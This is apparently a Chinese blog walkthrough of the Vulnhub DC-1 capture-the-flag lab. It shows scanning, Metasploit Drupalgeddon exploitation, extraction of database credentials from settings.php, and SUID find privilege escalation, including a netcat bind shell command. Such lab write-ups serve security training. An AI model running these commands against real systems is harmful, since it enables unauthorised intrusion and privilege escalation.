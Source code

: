 ```yaml
---
title: DC-1
tags:
  - Vulnhub
  - DC-1
categories: 
  - 渗透靶机训练
description: Vulnhub DC-1 Challenge
excerpt: Vulnhub DC-1 Challenge
typora-root-url: DC-1
abbrlink: 41017
date: 2021-03-22 23:03:16
---
```


# DC-1

> 下载的虚拟机文件导入后在我的VMWare上并未网络问题，如有问题参考文章：[Fix Network Problem In Vulnhub Virtual Machine](https://evalexp.gitee.io/blog/p/38372/)

本挑战共有五枚FLAG。

## FLAG 1

使用**nmap**扫描一下服务器：

```bash
nmap -sC -sV -A -p- 192.168.145.134
```

得到以下结果：

![image-20210322230854178](image-20210322230854178.png)

结果存档备用。

可以看到nmap扫描的结果暴露了许多信息，这是一个**Drupal**的站，其次网站根目录下有**robots.txt**文件。

使用**nikto**扫描一下目标网站：

```bash
nikto -h 192.168.145.134
```

![image-20210322231145150](image-20210322231145150.png)

拿到的信息十分有限，唯一有用的信息就是之前已经知道的**Drupal 7.x**，至于其它看起来十分像敏感信息的经测试并无太大用处。

既然是CMS，那么就看看它有无已经披露的漏洞吧：

```bash
searchsploit Drupal 7
```

![image-20210322231445033](image-20210322231445033.png)

注意到部分**Metasploit**可渗透，在msf中搜索Drupal：

![image-20210322231821679](image-20210322231821679.png)

然后我们需要确定CMS的准确版本，或者获取一个模糊的版本区间，不能只是模糊的7.x。

经Google，发现了工具**droopescan**，其GitHub地址为：[https://github.com/droope/droopescan](https://github.com/droope/droopescan)

将其克隆至本地：

```bash
git clone https://github.com/droope/droopescan.git
```

然后安装依赖：

```bash
pip install -r requirements.txt
```

完成后执行：

```bash
./droopescan
```

出现异常：

![image-20210322232800319](image-20210322232800319.png)

使用pip排查，依赖已全部安装，修改执行python版本：

```bash
vim ./droopescan
```

修改为：

![image-20210322232901344](image-20210322232901344.png)

运行成功：

![image-20210322232930625](image-20210322232930625.png)

使用该工具扫描目标网站：

```bash
./droopescan scan drupal -u 192.168.145.134 -t 16
```

扫描结果：

![image-20210322233150978](image-20210322233150978.png)

可以确定目标版本，查看**searchsploit**命令的结果，发现7.x的漏洞几乎都可利用，加载**exploit\/multi\/http\/drupal_drupageddon**或者**exploit\/unix\/webapp\/drupal_drupalgeddon2**，然后拿到shell：

![image-20210322233814504](image-20210322233814504.png)

获取交互式shell：

```
shell
/bin/bash -i
```

![image-20210322233858934](image-20210322233858934.png)

成功拿到第一枚Flag：

![image-20210322233925233](image-20210322233925233.png)

## FLAG 2

根据FLAG1的提示，找Drupal的配置文件。

Drupal的配置文件位于：

```conf
/var/www/sites/default/settings.php
```

使用less仔细查看：

```bash
cat settings.php | less
```

发现使用bash -i获取的交互式环境有点问题，换python获取交互式shell，在meterpreter拿到shell后，执行：

```bash
python -c 'import pty; pty.spawn("/bin/bash");'
```

再次仔细查看：

![image-20210322234421423](image-20210322234421423.png)

第二枚FLAG。

发现了数据库账号和密码，保持留用。

## FLAG 3

连上数据库看看：

```bash
mysql -udbuser -pR0ck3t
```

数据库：

![image-20210322234657713](image-20210322234657713.png)

表共80个，此处不列出了。

有个比较关键的**users**表，查询其信息，得到了两个用户的信息，密码是经过Hash的，比较难处理。

在node表中查到第三枚Flag，但是不能算Flag，因为其内容没有一起存储在node表中，我们继续找找，最终在表**field_data_body**中找到了Flag3：

![image-20210322235034279](image-20210322235034279.png)

## FLAG 4

使用Find命令找到第四枚Flag。

![image-20210322235904518](image-20210322235904518.png)

## FLAG 5

按提示尝试进入/root失败：

![image-20210322235943415](image-20210322235943415.png)

按照Flag3的提示，用find找具有特殊权限suid的命令：

![image-20210323000531653](image-20210323000531653.png)

发现find是所属于root的，既然无法进入该目录，使用find遍历/root试试：

![image-20210323000746889](image-20210323000746889.png)

最终的flag出现了。

现在我们就要想办法拿到这个文件的内容。

这里需要提权，记录一下发现Linux运行的所有SUID可执行文件：

```bash
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

发现find具有SUID标识：

![image-20210323001859908](image-20210323001859908.png)

查看一下：

![image-20210323001932318](image-20210323001932318.png)

使用find提权：

```bash
# Method 1
find . -exec '/bin/sh' \;

# Method 2
touch $filename
find $filename -exec netcat -lvp 5555 -e /bin/sh \;
# Then use netcat to connect the server
```

此处使用第一个方法，成功拿到最终的FLAG。

![image-20210323002932191](image-20210323002932191.png)